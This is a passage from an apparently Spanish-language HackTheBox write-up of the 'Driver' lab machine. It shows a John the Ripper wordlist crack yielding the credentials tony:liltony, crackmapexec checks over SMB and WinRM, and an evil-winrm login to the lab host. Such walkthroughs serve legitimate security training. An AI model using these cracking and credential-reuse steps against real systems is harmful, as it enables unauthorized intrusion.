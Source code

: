 ```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![](/assets/img/HackTheBox/Driver/john.png)

### user:password
- tony : liltony

`crackmapexec` me dice que son credenciales validas en SMB

![](/assets/img/HackTheBox/Driver/cme2.png)

Recurda que esta el puerto 5985 por lo tanto checamos y nos dio un `pwn3d!`

![](/assets/img/HackTheBox/Driver/cme3.png)

### Evil-WinRM

Ahora mediante `evil-winrm` nos conectamos a la maquina

```
evil-winrm -i 10.129.95.238 -u 'tony' -p 'liltony'
```

![](/assets/img/HackTheBox/Driver/winrm.png)
